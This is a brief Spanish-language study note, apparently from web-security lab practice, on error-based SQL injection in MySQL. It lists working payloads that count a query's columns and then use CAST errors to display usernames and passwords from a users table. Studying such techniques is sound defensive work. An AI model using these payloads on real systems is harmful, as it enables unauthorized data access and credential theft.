 # Inyección SQL Blind basado en errores visibles 

Tags: #SQLI #MySQL #BurpSuite 

```bash 
En este caso la página web muestra un error visible con la query, por lo que se puede aprovechar para mostrar contenido 
```

```mysql 
❯ ' order by 1 -- -         # Conocer el numero de columnas 
❯ ' union select NULL-- -   

# Cast convierte un tipo de dato a otro, por lo que el 1 es string y lo convertirá a entero
❯ ' or 1=cast((select 1) as INT)-- -

❯ ' or 1=cast((select username from users limit 1) as INT)-- -   # En el error se muestra el primer usuario 

❯ ' or 1=cast((select password from users limit 1) as INT)-- -    # En el error se muestra la password del primer usuario 
```